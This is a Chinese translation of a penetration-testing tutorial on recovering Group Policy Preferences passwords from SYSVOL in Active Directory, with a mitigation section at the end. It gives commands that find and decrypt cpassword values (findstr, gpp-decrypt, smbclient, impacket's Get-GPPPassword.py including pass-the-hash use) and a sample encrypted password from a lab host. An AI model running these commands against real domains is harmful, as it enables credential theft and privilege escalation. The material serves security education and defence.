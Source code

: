 # 攻击 GPP(组策略首选项)凭据| Active Directory 测试

> 原文：<https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a?source=collection_archive---------1----------------------->

*一种非常常见且*容易的攻击，提供存储在 SYSVOL 共享中的用户凭证，可用于获取外壳或提升权限*。*

![](img/fb3f6874aff179789f3b4f1e8473988f.png)

## 背景:

组策略首选项(GPP)允许管理员创建带有嵌入式凭据的域策略。等等，GPP 是什么？

> 组策略首选项是组策略客户端扩展的集合，这些扩展向运行 Microsoft Windows 桌面和服务器操作系统的加入域的计算机提供首选项设置。

简而言之，GPP 是一种工具，它为管理员提供了一些高级功能，用于在 Windows 域网络中配置和管理帐户策略。

这些策略允许他们设置本地帐户，并为各种目的嵌入凭据，否则可能需要在脚本中嵌入密码。因此，当生成新的组策略首选项(GPP)时，会在 SYSVOL 共享中创建一个包含配置数据的 xml 文件(通常为 Groups.xml ),包括与 GPP 关联的任何密码，SYSVOL 共享是域控制器上的文件夹，所有经过身份验证的域用户都可以访问和读取这些文件夹。

出于保护目的，微软在将密码存储为“cpassword”之前，会使用 AES 对其进行加密。但是钥匙可以在 [MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) 上公开获得！

域组策略存储在:

```
\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\
```

存储在 XML 文件中的 cpassword 如下所示:

```
└─$ cat Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml...
D9BDE98BA1D1}" name="**active.htb\SVC_TGS**" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" **cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"** changeLogon="0" noChange="1" 
...
```

因此，在某些情况下，我们可以读取这些文件:

*   我们在系统上已经有了一个低特权 shell，所以我们可以在 SYSVOL 共享中搜索 XML 文件。
*   由于允许来宾访问，我们能够匿名访问 SMB 文件共享(无需任何密码),并且该共享托管了 XML 文件。
*   暴露或允许访问 XML 文件任何其他漏洞。

**受影响的系统:**

微软在这里列出了受影响的系统[。](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025#affected-and-non-affected-software)

## 剥削:

有许多方法可以找到并轻松解密密码，例如:

1.  如果我们已经有了 **shell 访问**，那么我们可以搜索字符串，因为关键字“cpassword”的值等于密码:

```
findstr /S /I cpassword \\<DOMAIN>\sysvol\<DOMAIN>\policies\*.xml
```

然后使用 kali 工具对其进行解密，以获得明文密码，该密码稍后可用于提升权限:

```
gpp-decrypt <hash>
```

2.如果允许我们作为来宾连接到任何共享，那么我们可以从 SYSVOL 上的文件中找到 cpassword 值，并将它们传递给 gpp-decrypt:

```
$ smbclient \\\\ip_address\\share> mget * (to list all the files including policies)
```

3.使用 impacket 模块 [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) 搜索并转储密码:

```
#with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'#with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'#pass the hash(with an NT hash)
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'#parse a local file
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```

4.使用 powersploit 模块 [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) 或 Metasploit 模块'*辅助/扫描仪/smb/smb_enum_gpp'* 或'*post/windows/gather/credentials/GPP '*自动查找并获取明文密码。

## 缓解措施:

*   在每台计算机上安装 MS14–025 中所述的 [KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025) ，用于防止新凭证被添加到组策略首选项中。
*   删除 SYSVOL 中任何包含密码的现有 GPP xml 文件。
*   密码不应存储在所有经过身份验证的用户都可以使用的文件中。

非常感谢您的阅读。在 [Twitter](https://twitter.com/jaiguptanick) 、 [Linkedin](https://www.linkedin.com/in/jaiguptanick/) 、 [Youtube](https://www.youtube.com/channel/UCGvgjzkWyrYaTzJsDlTGB9g) 上与我联系。

*参考文献:*

*   [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
*   [https://docs . Microsoft . com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn 581922(v = ws . 11)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11))
*   [https://www . rapid 7 . com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pw nage/](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！